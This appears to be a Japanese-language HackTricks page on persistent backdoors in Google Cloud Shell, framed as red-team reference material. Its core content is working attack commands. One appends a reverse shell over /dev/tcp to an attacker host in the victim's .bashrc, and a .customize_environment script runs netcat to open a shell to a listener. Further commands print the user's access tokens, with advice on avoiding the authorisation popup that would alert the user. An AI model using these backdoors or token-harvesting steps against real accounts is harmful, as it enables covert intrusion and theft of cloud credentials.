 # GCP - Cloud Shell Persistence

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)を**フォロー**する
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)にPRを提出して、**ハッキングトリックを共有**する
*
*
*
* &#x20;githubリポジトリ。

</details>

## Cloud Shell

詳細については、以下をチェックしてください：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 永続的なバックドア

[**Google Cloud Shell**](https://cloud.google.com/shell/)は、ブラウザから直接クラウドリソースに対するコマンドラインアクセスを提供し、関連するコストはかかりません。

**Google Cloud Shell**には、**webコンソール**からアクセスするか、**`gcloud cloud-shell ssh`**を実行してアクセスできます。

このコンソールには、攻撃者にとって興味深い機能がいくつかあります：

1. **Google Cloudにアクセス権を持つ任意のGoogleユーザー**は、完全に認証されたCloud Shellインスタンスにアクセスできます（サービスアカウントは、組織の所有者であっても可能です）。
2. そのインスタンスは、**活動がない場合でも少なくとも120日間はホームディレクトリを維持**します。
3. そのインスタンスの活動を監視するための**組織の機能はありません**。

基本的には、攻撃者はユーザーのホームディレクトリにバックドアを設置し、ユーザーが少なくとも120日ごとにGC Shellに接続する限り、バックドアは生き残り、攻撃者は次回実行されるたびにシェルを取得します。以下を実行するだけで：
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

ホームフォルダには**`.customize_environment`**という別のファイルがあり、存在する場合はユーザーが**クラウドシェル**にアクセスするたびに**実行**されます（前のテクニックと同様）。ユーザーがクラウドシェルを「頻繁に」使用する限り、前のバックドアまたは次のようなバックドアを挿入して持続性を維持します。
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**認証が必要なアクションが初めて実行されるとき**には、ユーザのブラウザにポップアップ認証ウィンドウが表示されます。このウィンドウはコマンドを実行する前に承認する必要があります。予期しないポップアップが表示された場合、疑念を抱かれ、使用されている持続性手法が損なわれる可能性があります。
{% endhint %}

これは、クラウドシェル（攻撃者として）から`gcloud projects list`を実行した際の、ブラウザのユーザセッションで表示されるポップアップです：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

ただし、ユーザがアクティブにクラウドシェルを使用している場合、ポップアップは表示されず、ユーザのトークンを**収集**できます。
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH接続の確立方法

基本的に、以下の3つのAPI呼び出しが使用されます:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (ローカルで作成した公開鍵を追加する)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (インスタンスを起動する)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (Google Cloud ShellのIPを教えてくれる)

しかし、[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) でさらに情報を見つけることができます。

## 参考文献

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
